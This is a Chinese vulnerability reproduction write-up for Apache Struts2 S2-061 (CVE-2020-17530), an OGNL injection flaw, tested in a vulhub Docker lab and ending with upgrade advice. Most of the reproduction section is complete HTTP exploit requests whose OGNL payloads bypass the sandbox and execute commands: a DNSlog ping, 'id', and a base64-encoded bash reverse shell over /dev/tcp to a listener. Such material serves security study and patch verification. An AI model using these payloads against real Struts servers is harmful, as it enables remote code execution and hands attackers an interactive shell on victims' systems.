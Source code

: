 ###   Struts2-061

### 0x00 漏洞简介

Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061  Struts  远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行，风险极大。

### 0x01 漏洞描述

Struts2 会对某些标签属性(比如 `id`，其他属性有待寻找) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 `x`  的值用户可控时，用户再传入一个 `%{payload}` 即可造成OGNL表达式执行。S2-061是对S2-059沙盒进行的绕过。

### 0x02 漏洞影响

struts 2.0.0 - struts 2.5.25

### 0x03 漏洞复现

**一.环境搭建**

1.docker环境地址：

https://github.com/vulhub/vulhub/tree/master/struts2/s2-061

docker-compose up -d #启动docker环境

```
2.访问目标地址
http://192.168.1.14:8080/index.action
二、漏洞利用
1.DNSlog验证漏洞
```

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 853

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ping    paqmgs.dnslog.cn")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

DNGlog记录可发现命令成功执行

![img](https://img2020.cnblogs.com/blog/1049983/202012/1049983-20201211202121390-1940043226.png)

2.通过构造post包执行exp 命令执行id

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 827

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

burp提交后，在响应页面发现命令回显可，说明ID命令执行成功

![img](https://img2020.cnblogs.com/blog/1049983/202012/1049983-20201211202122017-926449802.png)

或者

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{

(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 

(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +

(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 

(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 

(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 

(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))

}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](https://img2020.cnblogs.com/blog/1049983/202012/1049983-20201211202122595-862937350.png)

3.反弹shell命令

通过以下在线地址将bash反弹命令进行进行编码转换

http://www.jackson-t.ca/runtime-exec-payloads.html

![img](https://img2020.cnblogs.com/blog/1049983/202012/1049983-20201211202123162-2125106451.png)

提交以下poc:

```
POST /index.action HTTP/1.1
Host: 192.168.1.14:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922

------WebKitFormBoundaryl7d1B1aGsV2wcZwF

Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c  {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQvMjIyMiAgIDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](https://img2020.cnblogs.com/blog/1049983/202012/1049983-20201211202123757-594898114.png)

可以看到成功反弹shell:

![img](https://img2020.cnblogs.com/blog/1049983/202012/1049983-20201211202124208-2126813332.png)

### 0x04 漏洞修复

避免对不受信任的用户输入使用强制OGNL评估，或/和升级到2.5.26版，可修复该漏洞。腾讯安全专家建议受影响的用户将Apache Struts框架升级至最新版本

临时修复，升级到 Struts 2.5.26 版本，下载地址为：

https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26

### 0x05 漏洞总结

此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，但是如果没有使用这个依赖包，也还是没办法进行利用。



来源网络
https://www.cnblogs.com/backlion/p/14122528.html